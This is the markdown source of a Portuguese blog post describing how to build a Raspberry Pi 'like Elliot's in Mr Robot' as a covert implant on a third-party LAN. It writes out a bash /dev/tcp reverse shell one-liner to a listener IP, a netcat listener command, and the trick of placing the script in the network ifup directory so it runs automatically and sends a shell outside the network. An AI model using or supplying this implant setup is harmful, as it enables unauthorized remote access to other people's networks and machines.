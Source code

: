 ```yaml
---
layout: post
title: Mr robot's raspberry Pi
description: "Como criar um raspberry Pi semelhante ao utilizado por Elliot na primeira temporada de Mr Robot"
tags: [Mr\_robot, raspberry, hack, reverse\_shell]
categories: [raspberry, hack]
author: lgribeiro
published: true
---
```


Algum tempo atrás estava dando uma olhada nos posts da série Mr Robot do [null-byte](http://null-byte.wonderhowto.com/how-to/mr-robot-hacks/) e um artigo em especial me chamou a atenção.

A publicação sobre como criar um raspberry para hacking não é exetamente igual as condições encontradas por Elliot na série no episódio eps1.3\_\_da3m0ns.mp4. Portanto, optei por adaptar um pouco esse tutorial para que ele se torne mais fiel ao conteúdo apresentado na televisão. De início, os passos serão bem semelhantes aos apresentados pelo null-byte.

1. Baixar o [Kali linux para arm](https://www.offensive-security.com/kali-linux-arm-images/). Escolha aquela que mais se adequa ao hardware que estiver sendo utilizado. Iremos utilizar o Kali pois é uma distribuição linux focada em segurança, e por conta disso, fornecerá diversas ferramentas que poderão ser utilizadas em missões futuras.

<center>![offensive security]({{ site.url }}/images/offensive-sec.png)</center>

2. Feito isso, precisamos criar um script que funcionará como nosso nosso shell reverso. Para tal, é recomendável utilizar o [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) da pentest Monkey.

{% raw % }
bash -i >& /dev/tcp/\<ip da maquina que está escutando\>/8080 0>&1
{% endraw %}

Colocamos então o código acima em um arquivo (chamaremos ele de reverse) e concedemos a ele permissão de execução da seguinte maneira:

{% raw %}
chmod +x reverse
{% endraw %}

Obs: Vale ressaltar que não devemos colocar o script com extensão .sh pois o diretório em que ele será armazenado não executa arquivos com esse formato.

3. Agora, é necessário preparar uma máquina capaz de receber essa shell fornecida pelo raspberry. Para isso, podemos utilizar o canivete suiço de conexões TCP, o netcat. Basta colocar o netcat para escutar na porta em que a shell será fornecida da seguinte forma:

{% highlight bash %}
{% raw %}
 nc -lvp 8080
{% endraw %}
{% endhighlight %}

4. Com a estrutura pronta, precisamos organizar tudo o que temos para que seja possível acessar o raspberry dentro de uma LAN de terceiros. A partir desse ponto que nos desviamos um pouco do artigo que utilizamos como base.
No lugar de utilizar teclado, tela e demais periféricos, colocaremos nosso script no diretório /etc/network/interfaces/ifup. Dessa forma, assim que a interface do nosso dispositivo começar a funcionar ele executará o script, que fornecerá a shell para a máquina de fora da LAN.

![elliot wins]({{ site.url }}/images/mr-robot-success.1280x600.jpg)

Ressalvas:

* Para testar, utilize duas máquinas na mesma LAN, ou a máquina que escuta deverá ter um IP real ou ter um portfoward settado no roteador para que as conexões recebidas em detarmidana porta sejam redirecionadas para a máquina que está escutando.

Quaisquer dúvidas, entre em contato via email: lgribeiro at gris.dcc.ufrj.br

